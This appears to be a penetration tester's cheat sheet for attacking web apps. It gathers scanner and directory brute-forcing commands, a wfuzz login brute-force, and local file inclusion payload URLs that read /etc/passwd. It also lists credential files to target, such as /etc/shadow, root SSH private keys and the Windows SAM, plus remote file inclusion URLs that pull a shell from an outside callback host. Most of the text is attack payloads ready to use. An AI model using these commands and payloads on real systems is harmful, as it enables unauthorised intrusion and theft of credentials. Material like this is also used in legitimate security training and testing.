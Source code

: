 
## Step 1: ALWAYS LOOK AT THE SOURCE CODE OF THE WEBPAGE!


## Web App Scanners

Nikto: 

- nikto --url <domain>

Wpscan:

- wpscan --url <domain>
- wpscan --url <domain> --enumerate ap at (All Plugins, All Themes)
- wpscan --url <domain> --enumerate u (Usernames)
- wpscan --url <domain> --enumerate v

Web Tools for Directory Scanning: 

Dirb: 

- dirb <domain>
- dirb <domain> <wordlist>

Gobuster: 

- gobuster -u <url> -w /usr/share/wordlists/<Wordlist file>
- gobuster -u <url> -w /usr/share/wordlists/<Wordlist file> -a Firefox (Custom Agent)
- gobuster -u <url> -w /usr/share/wordlists/<Wordlist file> -x .php,.txt,.html
- gobuster -u <url> -w /usr/share/wordlists/<Wordlist file> -x .php,.txt,.html -s "200"
- gobuster -e -u <url> -w /usr/share/wordlists/<Wordlist file> -x .php,.txt,.html -s "200"
- gobuster -v -e -u <url> -w /usr/share/wordlists/<Wordlist file> -x .php,.txt,.html -s "200"
- gobuster -v -e -u <url> -w /usr/share/wordlists/<Wordlist file> -x .php,.txt,.html -s "200" -o output.txt
- gobuster -s 200,204,301,302,307,403 -u 172.21.0.0 -w /usr/share/seclists/Discovery/Web_Content/big.txt -t 80 -a 'Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0'

Wfuzz:

- wfuzz -w wordlist/general/common.txt http://testphp.vulnweb.com/FUZZ
- wfuzz -z range,0-10 --hl 97 http://testphp.vulnweb.com/listproducts.php?cat=FUZZ
- wfuzz -z file,wordlist/others/common_pass.txt -d "uname=FUZZ&pass=FUZZ"  --hc 302 http://testphp.vulnweb.com/userinfo.php (Post Requests)

- wfuzz -z file,wordlist/general/common.txt -b cookie=value1 -b cookie2=value2 http://testphp.vulnweb.com/FUZZ (Fuzzing Cookies)

Dirsearch: 

- dirsearch /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 172.21.0.0 -e php


Other Tools: 
- Burp Suite
- OWASP Zap
- Cadaver
- SQLMap
- Joomscan


## Testing for LFI: 

https://www.exploit-db.com/docs/english/40992-web-app-penetration-testing---local-file-inclusion-(lfi).pdf

Examples: 

http://example.com/index.php?page=etc/passwd
http://example.com/index.php?page=etc/passwd%00
http://example.com/index.php?page=../../etc/passwd
http://example.com/index.php?page=%252e%252e%252f
http://example.com/index.php?page=....//....//etc/passwd

Interesting Files:

Linux:
/etc/passwd
/etc/shadow
/etc/issue
/etc/group
/etc/hostname
/etc/ssh/ssh_config
/etc/ssh/sshd_config
/root/.ssh/id_rsa
/root/.ssh/authorized_keys
/home/user/.ssh/authorized_keys
/home/user/.ssh/id_rsa

Windows:

Windows:
/boot.ini
/autoexec.bat
/windows/system32/drivers/etc/hosts
/windows/repair/SAM



## Testing for RFI: 

http://example.com/index.php?page=http://callback.com/shell.txt
http://example.com/index.php?page=http://callback.com/shell.txt%00
http://example.com/index.php?page=http:%252f%252fcallback.com%252fshell.txt

## Resources

- Turning LFI to RFI: https://l.avala.mp/?p=241